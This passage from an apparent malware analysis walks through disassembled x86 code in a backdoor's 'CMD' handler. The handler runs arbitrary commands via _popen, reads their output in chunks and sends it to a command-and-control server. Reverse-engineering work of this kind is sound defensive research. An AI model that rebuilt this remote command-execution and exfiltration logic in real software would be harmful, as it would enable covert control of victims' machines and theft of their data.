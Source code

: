 ```
.text:004019A8      cmp     [ebp+NumberOfBytesRead], 0 ; data from the file 
.text:004019AC      ja      read_continue
; exit
```

#### Command CMD 

The expected format of the command is `CMD Port Command`. This command calls `_popen`, which  creates a pipe (in **read+binary** mode) and executes a command:

```
.text:004022BB      mov     [ebp+token_cmd], eax ; token[2]=command to execute
.text:004022C1      push    offset aRb      ; "rb"
.text:004022C6      mov     edx, [ebp+token_cmd]
.text:004022CC      push    edx             ; char *
.text:004022CD      call    __popen
.text:004022D2      add     esp, 8
.text:004022D5      mov     [ebp+pFILE], eax
```

As stated in the [MSDN](https://docs.microsoft.com/en-us/cpp/c-runtime-library/reference/popen-wpopen?view=vs-2019), the other end of the pipe is associated with the spawned command's stdin and stdout.

The stream returned by `_popen` will be used inside the function `SendStreamContent()`:

```
.text:004022EB      mov     eax, [ebp+pFILE] ; stream
.text:004022F1      push    eax             
.text:004022F2      mov     ecx, [ebp+port]  ; token[1]=port
.text:004022F8      push    ecx
.text:004022F9      mov     edx, [ebp+C2]    ; C&C
.text:004022FC      push    edx
.text:004022FD      call    SendStreamContent
```

Similarly to the preceeding commands, the function `SendStreamContent()` starts by establishing a socket connection to the C&C (code not shown). Then it enters a first loop where it uses `_fread` to read the content of the stream (stdin and stdout of the spawned command) by chunks of 0x200 bytes:

```
.text:004017C2 continue_reading:
.text:004017C2      mov     [ebp+total_sent], 0
.text:004017CC      mov     eax, [ebp+pFILE]
.text:004017CF      push    eax             ; FILE *
.text:004017D0      push    200h            ; max items to read
.text:004017D5      push    1               ; size of 1 item
.text:004017D7      lea     ecx, [ebp+buf]
.text:004017DD      push    ecx             ; void *
.text:004017DE      call    _fread
.text:004017E3      add     esp, 10h
.text:004017E6      mov     [ebp+len], eax
[...]
.text:0040183F      cmp     [ebp+len], 0
.text:00401843      ja      continue_reading
```

